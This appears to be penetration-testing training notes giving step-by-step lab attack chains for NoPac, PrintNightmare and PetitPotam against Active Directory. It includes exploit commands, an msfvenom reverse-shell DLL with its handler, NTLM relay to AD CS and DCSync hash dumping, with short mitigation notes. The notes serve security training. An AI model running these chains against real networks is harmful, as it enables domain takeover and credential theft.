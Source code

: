 # Bleeding Edge Vulnerabilities in Active Directory Lateral Movement

## Introduction
Many organizations delay patching, leaving them exposed to recent, high-impact vulnerabilities. This section covers three advanced attacks—NoPac, PrintNightmare, and PetitPotam—that can lead to domain compromise. These attacks are powerful, require caution, and should only be tested in lab environments or with explicit client approval.

---

## Scenario Setup
- **Linux attack host:** SSH into ATTACK01.
- **Windows attack host:** Use MS01 for Rubeus/Mimikatz demos.
- All tools and exploits referenced are open-source and available on GitHub.

---

## 1. NoPac (SamAccountName Spoofing)
**CVE-2021-42278 & CVE-2021-42287**

- Allows privilege escalation from any standard domain user to Domain Admin in a single command.
- Exploits the ability to change a computer account's SamAccountName to match a Domain Controller, then requests Kerberos tickets as the DC.
- **Pre-requisite:** ms-DS-MachineAccountQuota > 0 (default: 10).

### Attack Flow
1. **Install Impacket and NoPac:**
    ```bash
    git clone https://github.com/SecureAuthCorp/impacket.git
    cd impacket && python setup.py install
    git clone https://github.com/Ridter/noPac.git
    ```
2. **Scan for Vulnerability:**
    ```bash
    sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
    ```
    - Look for `ms-DS-MachineAccountQuota` and TGT acquisition.
3. **Exploit with noPac.py:**
    ```bash
    sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
    ```
    - Drops a SYSTEM shell on the DC using smbexec.py.
    - TGTs and ccache files are saved locally for further attacks.
4. **DCSync with noPac:**
    ```bash
    sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
    ```
    - Dumps NTLM hashes and Kerberos keys for the administrator.

**OpSec Note:**
- smbexec.py is noisy and may trigger AV/EDR. Avoid on production unless necessary.
- Clean up ccache files and machine accounts after testing.

**Mitigation:**
- Set `ms-DS-MachineAccountQuota` to 0 if possible.
- Patch DCs for CVE-2021-42278/42287.

---

## 2. PrintNightmare (CVE-2021-34527 & CVE-2021-1675)
- Vulnerabilities in the Windows Print Spooler service allow remote code execution and privilege escalation.
- Can be used for local or remote SYSTEM shell access on unpatched hosts.

### Attack Flow
1. **Clone Exploit and Install Impacket:**
    ```bash
    git clone https://github.com/cube0x0/CVE-2021-1675.git
    pip3 uninstall impacket
    git clone https://github.com/cube0x0/impacket
    cd impacket && python3 ./setup.py install
    ```
2. **Check for Print Spooler Exposure:**
    ```bash
    rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
    ```
3. **Generate DLL Payload:**
    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
    ```
4. **Host DLL with smbserver.py:**
    ```bash
    sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
    ```
5. **Start MSF multi/handler:**
    ```
    use exploit/multi/handler
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 172.16.5.225
    set LPORT 8080
    run
    ```
6. **Run the Exploit:**
    ```bash
    sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
    ```
    - If successful, a SYSTEM Meterpreter shell is returned.

**Mitigation:**
- Patch all Windows hosts for PrintNightmare CVEs.
- Disable Print Spooler on servers where not needed.

---

## 3. PetitPotam (CVE-2021-36942, MS-EFSRPC)
- LSA spoofing vulnerability allowing NTLM relay to AD CS (Active Directory Certificate Services).
- Can lead to domain compromise by relaying DC authentication to a vulnerable CA.

### Attack Flow
1. **Start ntlmrelayx.py targeting AD CS Web Enrollment:**
    ```bash
    sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
    ```
2. **Trigger authentication from DC with PetitPotam:**
    ```bash
    python3 PetitPotam.py 172.16.5.225 172.16.5.5
    ```
    - Alternatively, use Mimikatz or PowerShell implementations.
3. **Capture and save the base64 certificate blob from ntlmrelayx.py output.**
4. **Request a TGT for the DC using gettgtpkinit.py:**
    ```bash
    python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$ -pfx-base64 <base64cert> dc01.ccache
    export KRB5CCNAME=dc01.ccache
    ```
5. **DCSync with secretsdump.py:**
    ```bash
    secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
    ```
6. **Alternative: Use getnthash.py to extract NT hash from TGT:**
    ```bash
    python /opt/PKINITtools/getnthash.py -key <AS-REP-key> INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
    secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes <lm>:<nt>
    ```
7. **On Windows, use Rubeus to request TGT and perform PTT:**
    ```powershell
    .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:<base64cert> /ptt
    klist
    .\mimikatz.exe "lsadump::dcsync /user:inlanefreight\krbtgt"
    ```

**Mitigation:**
- Patch for CVE-2021-36942.
- Harden AD CS: require SSL, disable NTLM, restrict templates, monitor for relaying.
- See "Certified Pre-Owned" whitepaper for advanced AD CS attack/defense.

---

## Defender Notes
- Patch and harden all DCs, CAs, and print servers.
- Monitor for new machine accounts, suspicious service creation, and certificate requests.
- Restrict who can add computers to the domain (`ms-DS-MachineAccountQuota`).
- Disable unnecessary services (Print Spooler, AD CS Web Enrollment).
- Audit for use of tools like smbexec.py, ntlmrelayx.py, and Rubeus.

---

## Recap
- **NoPac:** Standard user to DA via SamAccountName spoofing.
- **PrintNightmare:** RCE/SYSTEM shell via Print Spooler.
- **PetitPotam:** NTLM relay to AD CS for domain compromise.
- All can lead to full domain compromise with minimal privileges or even unauthenticated access.
- Always test in a lab, keep up with new vulnerabilities, and advise clients on patching and hardening.

---

## References
- [NoPac (SamAccountName Spoofing)](https://github.com/Ridter/noPac)
- [PrintNightmare (cube0x0)](https://github.com/cube0x0/CVE-2021-1675)
- [PetitPotam](https://github.com/topotam/PetitPotam)
- [Certified Pre-Owned Whitepaper](https://research.ifcr.dk/certified-pre-owned/) 